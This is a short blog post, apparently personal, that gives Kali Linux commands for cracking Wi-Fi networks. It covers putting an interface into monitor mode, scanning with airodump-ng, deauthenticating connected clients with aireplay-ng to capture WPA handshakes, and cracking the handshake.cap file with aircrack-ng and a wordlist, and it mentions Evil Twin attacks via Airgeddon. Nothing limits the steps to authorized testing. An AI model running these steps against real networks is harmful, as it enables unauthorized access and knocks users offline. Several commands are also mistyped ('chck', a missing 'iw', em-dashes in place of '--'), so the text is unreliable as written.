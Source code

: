 ```yaml
---
layout: post
title:  "Cracking Wi-Fi Network"
summary: 'Tips to use Airgeddon and other Kali tools'

author: gabro
date: '2024-08-12 1:35:23 +0530'
category: ['cracking']
tags: cracking
thumbnail: /assets/img/posts/kali/kali.png
keywords: cracking, kali linux, airgeddon, wifi
permalink: /blog/kali-tips/
---
```


## Set Philippine channel
```
sudo iw reg set PH
```
this is needed so we have access to more channels 

## See interfaces to use
```
iw dev
iwconfig
```

## Set interface in monitor mode
```
sudo iwconfig wlan0 mode monitor 
```

## Test the interface
```
sudo aireplay-ng --test wlan0
```

## Soft reset of the interface
```
sudo airmon-ng chck kill
sudo ip link set wlan0 down
sudo dev wlan0 set type monitor
```

### Scan Wi-Fi networks
```
sudo airodump-ng wlan0
```
or
```
sudo airodump-ng —band abg wlan0
```

# Airgeddon 👨🏻‍💻
A powerful tool for Kali, useful for obtaining handshakes and performing Evil Twin attacks. It’s worth noting that for capturing handshakes, it can be helpful to perform the following steps in another terminal while listening to connected devices, that is, during the handshake acquisition phase.

* Identification of devices connected to a network
```
sudo airodump-ng —bssid <target_mac> —channel <id> wlan0
```

* Deauthentication of the found client
```
sudo aireplay-ng —deauth 10 -a <Target MacAddress> -c <Target Device MAC> wlan0
```
This procedure can be done for each client connected to the network to increase the chances of capturing a handshake.

## Aircrack-ng 👨🏻‍💻
Another powerful tool included within Airgeddon but that can also be used separately is Aircrack-ng. For example, it can be used to crack the .cap file with a dictionary. However, it is not very efficient and is somewhat less customizable, so Hashcat is often a better choice.
```
sudo aircrack-ng dict.txt handshake.cap
```

